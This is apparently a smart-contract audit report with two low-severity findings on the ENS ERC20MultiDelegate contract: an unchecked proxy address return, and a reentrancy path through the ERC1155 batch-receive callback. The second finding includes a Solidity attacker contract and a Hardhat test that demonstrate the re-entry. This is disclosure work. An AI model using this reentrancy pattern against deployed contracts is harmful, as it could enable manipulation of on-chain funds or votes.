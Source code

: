 # [L-01] check the ProxyAddress return

**Impact:**
The function `deployProxyDelegatorIfNeeded` calculates the `proxyAddress` from `retrieveProxyContractAddress` function to check if there's a contract deployed at this address. If not, it calls the `create2` (new) function to create this proxy. This can lead to issues if `retrieveProxyContractAddress` doesn't return properly.

## Recommendations
Add a return to [new function](https://github.com/code-423n4/2023-10-ens/blob/ed47c841a19abd26681110a26ef03c446da2b6dd/contracts/ERC20MultiDelegate.sol#L186) and check if `proxyAddress` is equal the return.

# [L-02] function delegateMulti can have reentrancy

**Impact:**
Reentrancy can occur on the `_mintBatch()` call. However, this doesn't impact the contract because it adheres to the Checks-Effects-Interactions pattern. The `_mintBatch()` function calls the receiver if it's a contract at this location: [_doSafeBatchTransferAcceptanceCheck](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC1155/ERC1155.sol#L413). This call can lead to reentrancy, which isn't problematic *right now*.

## POC
Create the attacker contract

```solidity
file: src/contracts/Attacker.sol
// contracts/Attacker.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC1155/utils/ERC1155Holder.sol";
import "../contracts/ERC20MultiDelegate.sol";
import "@openzeppelin/contracts/token/ERC20/extensions/ERC20Votes.sol";

contract Attacker is ERC1155Holder {

    uint256[] optSources;
    uint256[] optTargets;
    uint256[] optAmounts;
    address contractDelegate;
    bool called;
    function approveToken(ERC20Votes _token, address _contractAddr) external {
        _token.approve(_contractAddr, type(uint256).max);
    }
    function delegateMulti(
        address contractAddr,
        uint256[] calldata sources,
        uint256[] calldata targets,
        uint256[] calldata amounts
    ) external {
        optSources = sources;
        optTargets = targets;
        optAmounts = amounts;
        contractDelegate = contractAddr;
        ERC20MultiDelegate(contractAddr).delegateMulti(sources, targets, amounts);
    }

    function onERC1155BatchReceived(
        address,
        address,
        uint256[] memory,
        uint256[] memory,
        bytes memory
    ) public virtual override returns (bytes4) {
        if (!called) {
            called = true;
            ERC20MultiDelegate(contractDelegate).delegateMulti(optSources, optTargets, optAmounts);
        }
        return this.onERC1155BatchReceived.selector;
    }
}
```

Change the test file:
```js 
file: test/delegatemulti.js
    it('test contract receiving ERC1155', async () => {
      console.log("entrou!");
      const Attacker = await ethers.getContractFactory(
        'Attacker'
      );
      attacker = await Attacker.deploy();
      await attacker.deployed();
      console.log("saiu!");
      await increaseTime(365 * 24 * 60 * 60);
      const mintAmount = (await token.totalSupply()).div(50);
      await token.mint(attacker.address, mintAmount);
      const attackerTokenAmount = await token.balanceOf(attacker.address);
      console.log("attackerTokenAmount        ", await attackerTokenAmount.toString());
  
      // give allowance to multi delegate contract
      await attacker.approveToken(token.address, multiDelegate.address);

      // delegate multiple delegates
      const delegates = [deployer, alice, bob, charlie];
      const amounts = delegates.map(() =>
      //divide by 2 to call twice inside attacker contract
      attackerTokenAmount.div(2).div(delegates.length)
      );
      
      await attacker.delegateMulti(multiDelegate.address, [], delegates, amounts);
    });
```
## Recommendations
Consider the following two options:

1. Nothing to do right now, but remain aware of this potential reentrancy. Always follow up on OpenZeppelin updates and monitor any changes when updating the version and deploying a new version, as well as any modifications to the EVM.
2. Integrate the `ReentrancyGuard` from OpenZeppelin to permanently mitigate the reentrancy vulnerability.